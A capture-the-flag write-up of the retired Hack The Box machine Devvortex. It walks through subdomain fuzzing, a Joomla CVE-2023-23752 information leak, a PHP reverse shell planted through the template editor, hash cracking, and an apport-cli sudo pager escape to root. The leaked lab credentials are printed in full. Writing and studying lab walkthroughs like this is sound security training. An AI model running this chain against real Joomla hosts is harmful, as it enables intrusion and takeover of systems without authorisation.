



# Hack The Box - Devvortex



Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Devvortex**. This machine starts with Joomla enumeration that leads to an information disclosure exploit and source code access, then moves into template editing for code execution as `www-data`. From there, I recover database credentials, pivot to another user, and finish with a sudo abuse path through `apport-cli`.

## Reconnaissance

I began with a full port scan to identify exposed services.

```bash
sudo nmap -sS -A -o nmap 10.10.11.242
```

The scan showed SSH and HTTP:

```text
22/tcp open  ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http  nginx 1.18.0 (Ubuntu)
```

The web server redirected to `devvortex.htb`, so I added that hostname to my hosts file.

## Subdomain Discovery

The main site looked like a simple one-page landing page



so I moved to subdomain enumeration. Using `wfuzz`, I found a subdomain called `dev`.

```bash
sudo wfuzz -c -f sub-fighter -Z -w ./subdomains-top1million-5000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" --hl 7
```

That revealed `dev.devvortex.htb`.

## Joomla Enumeration

The `robots.txt` file on the subdomain hinted that the site was using Joomla. I ran `joomscan` to identify the version and any exposed paths.

```bash
perl joomscan.pl --url dev.devvortex.htb
```

The scan reported **Joomla 4.2.6**, and that version is vulnerable to [CVE-2023-23752], an information disclosure issue.

## Initial Access

### Joomla Information Disclosure

I used the public exploit for [CVE-2023-23752] https://github.com/Acceis/exploit-CVE-2023-23752 to pull sensitive application data.

```bash
ruby exploit.rb http://dev.devvortex.htb
```

The exploit returned useful details, including database credentials:

```text
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
```

It also exposed user data, including `lewis` and `logan paul`.



### Template Editing

The database credentials did not work for SSH, but they worked on the Joomla web app. Once authenticated, I used the template editor to modify the Cassiopeia `offline.php` file.

I navigated to the template editing page and replaced the content with a PHP reverse shell based on Pentestmonkey’s code. I adjusted the callback IP and port for my machine.

After saving the file, I triggered it by browsing directly to:

```text
http://dev.devvortex.htb/templates/cassiopeia/offline.php
```

That gave me a reverse shell as `www-data`.

## Lateral Movement

### Database Access

With the database credentials from Joomla, I connected to MySQL locally and listed the tables.

```bash
mysql -u lewis -p joomla -h 127.0.0.1 -e 'SHOW TABLES;'
```

The `sd4fg_users` table contained password hashes for both `lewis` and `logan paul`.

I extracted the hash for `logan` and cracked it with hashcat.

```bash
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

That revealed Logan’s password:

```text
tequieromucho
```

I used that to log in over SSH as `logan`.

## Privilege Escalation

### Apport-CLI Abuse

Checking sudo privileges showed that `logan` could run `/usr/bin/apport-cli` as root.

```bash
sudo -l
```

`apport-cli` can behave like `less` in some crash-report flows, which makes it possible to abuse the pager escape. To reach that state, I first started a harmless hanging process:

```bash
sleep 100000 &
```

Then I targeted that process with `apport-cli`:

```bash
sudo /usr/bin/apport-cli -P 1978 --hanging
```

Inside the interface, I pressed `V` to open the pager, then dropped into a root shell by entering:

```text
!/bin/sh
```

That gave me root access.

## Attack Path

- **Scan the host** — identify SSH and HTTP.
- **Enumerate subdomains** — discover `dev.devvortex.htb`.
- **Detect Joomla** — confirm the CMS and version.
- **Exploit [CVE-2023-23752]** — leak database credentials and user data.
- **Log in to Joomla** — use `lewis` credentials.
- **Edit a template** — drop a PHP reverse shell into `offline.php`.
- **Get a foothold** — land as `www-data`.
- **Dump MySQL tables** — pull password hashes from `sd4fg_users`.
- **Crack Logan’s hash** — recover `tequieromucho`.
- **SSH as Logan** — access the host.
- **Abuse apport-cli** — trigger the pager and escape to a root shell.
